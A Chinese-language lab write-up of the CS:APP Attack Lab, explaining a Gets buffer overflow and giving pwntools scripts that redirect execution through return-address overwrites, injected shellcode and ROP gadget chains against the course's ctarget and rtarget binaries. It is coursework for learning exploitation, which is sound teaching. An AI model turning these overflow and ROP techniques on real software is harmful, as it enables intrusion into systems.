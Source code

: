 ## Attacklab Note

首先看下Attacklab的README.txt

![image-20210213165540295](image/image-20210213165540295.png)

机翻一下，大概意思是有两个题目，ctarget和rtarget，分别是代码注入的1-3关和ROP训练的4-5关

### ctarget

漏洞位置在Gets这个函数，没有检查输入个数，全部读取到dest也就是buf上。

![image-20210213171123218](image/image-20210213171123218.png)

传进来的buf大小为0x28个字节，超过0x28个字节会造成溢出，覆盖返回地址可以控制rip的跳转，在test函数中跳转到touch函数就能完成目标。

![image-20210213171221987](image/image-20210213171221987.png)

#### touch1

没什么条件，直接控制rip返回地址即可

![image-20210213173204146](image/image-20210213173204146.png)

touch1的地址为 0x4017C0

![image-20210213175835613](image/image-20210213175835613.png)

编写脚本

```
from pwn import *

context.log_level = "debug"

io = process(["./ctarget","-q"])
elf = ELF("./ctarget")

touch1_addr = 0x04017C0
payload = 0x28 * 'a' + p64(touch1_addr)

io.recv()
io.sendline(payload)
io.interactive()
```

![image-20210213181224297](image/image-20210213181224297.png)



#### touch2

第二题要求参数为文件夹中的cookie.txt，也就是题目上来就输出的cookie，根据调用约定，函数的第一个参数存放在rdi寄存器中，所以需要先把rdi寄存器置为cookie，然后再跳转过去，题目规定不能使用jmp，可以将地址压入栈中，然后再ret上去。

![image-20210213182034605](image/image-20210213182034605.png)

stable_launch函数将buf上的空间改成了rwx，所以可以通过写shellcode的方式，将返回跳转到shellcode上，然后执行rdi寄存器置为cookie，最后跳转。

![image-20210213183750275](image/image-20210213183750275.png)

栈顶地址为0x5561dc78，脚本如下：

```
from pwn import *

context.arch = "amd64"
context.os = "linux"
context.log_level = "debug"


io = process(["./ctarget","-q"])
elf = ELF("./ctarget")
gdb.attach(io)

io.recvuntil("Cookie: 0x")
cookie = int(io.recv(8),16)

touch2_addr = 0x4017EC
stack_top = 0x5561dc78

payload = asm("mov rdi,{0}".format(hex(cookie)))
payload += asm("push {0}".format(hex(touch2_addr)))
payload += asm("ret")
payload += (0x28 - len(payload)) * 'a'
payload += p64(stack_top)

io.recv()
io.sendline(payload)
io.interactive()
```

![image-20210213185635429](image/image-20210213185635429.png)



#### touch3

第三关主要多了个hexmatch函数，这个函数的功能是在栈上随机地址赋值，然后比较cookie的值，所以用刚才的方法不行，有可能会被覆盖掉。

![image-20210214005903216](image/image-20210214005903216.png)

![image-20210214005850345](image/image-20210214005850345.png)

可以直接在栈底，也就是test函数的栈内存放cookie，在覆盖返回地址后，继续将下一个栈覆盖成cookie的值，记录地址，在shellcode中把这个地址赋给rdi寄存器当作touch3函数的参数

![image-20210214010230360](image/image-20210214010230360.png)

脚本如下：

```
from pwn import *

context.arch = "amd64"
context.os = "linux"
context.log_level = "debug"


io = process(["./ctarget","-q"])
elf = ELF("./ctarget")
#gdb.attach(io)

io.recvuntil("Cookie: 0x")
cookie = int(io.recv(8),16)

touch3_addr = 0x04018FA
stack_top = 0x5561dc78
stack_second = 0x5561dca8

payload = asm("mov rdi,{0}".format(hex(stack_second)))
payload += asm("push {0}".format(hex(touch3_addr)))
payload += asm("ret")
payload += (0x28 - len(payload)) * 'a'
payload += p64(stack_top)
payload += hex(cookie)[2:]

io.recv()
io.sendline(payload)
io.interactive()
```

![image-20210214010956755](image/image-20210214010956755.png)



### rtarget

#### touch1

第一关和ctarget一样，直接贴脚本

```
from pwn import *

context.log_level = "debug"

io = process(["./ctarget","-q"])
elf = ELF("./ctarget")

touch1_addr = 0x04017C0
payload = 0x28 * 'a' + p64(touch1_addr)

io.recv()
io.sendline(payload)
io.interactive()
```

![image-20210214012958338](image/image-20210214012958338.png)

#### touch2

先用ROPgadget 找到一个pop rdi ret，来给rdi寄存器赋值，然后再跳转到touch2函数即可

![image-20210214013653545](image/image-20210214013653545.png)

脚本如下：

```
from pwn import *

context.log_level = "debug"

io = process(["./rtarget","-q"])
elf = ELF("./rtarget")

io.recvuntil("Cookie: 0x")
cookie = int(io.recv(8),16)

touch2_addr = 0x04017EC
pop_rdi = 0x040141b
payload = 0x28 * 'a' + p64(pop_rdi) + p64(cookie) + p64(touch2_addr)

io.recv()
io.sendline(payload)
io.interactive()
```

![image-20210214013846639](image/image-20210214013846639.png)

#### touch3

由于地址随机化的原因，栈的地址每次运行都会发生变化，所以不能像ctarget那样写入一个地址，需要利用ROP获取地址，可以先mov rax,rsp获取栈顶地址，然后在mov rdi,rax，lea rax,[rdi+rsi]，最后跳到touch3函数上

![image-20210214015846585](image/image-20210214015846585.png)

脚本如下：

```
from pwn import *

context.log_level = "debug"

io = process(["./rtarget","-q"])
elf = ELF("./rtarget")
gdb.attach(io)

io.recvuntil("Cookie: 0x")
cookie = int(io.recv(8),16)

touch3_addr = 0x04018FA
rdi_rax = 0x4019a2
rax_rsp = 0x401a06
pop_rsi = 0x401383
lea = 0x4019D6
payload = 0x28 * 'a' + p64(rax_rsp) + p64(rdi_rax) + p64(pop_rsi) + p64(0x30) + p64(lea) + p64(rdi_rax) + p64(touch3_addr) + hex(cookie)[2:]

io.recv()
io.sendline(payload)
io.interactive()
```

![image-20210214022344433](image/image-20210214022344433.png)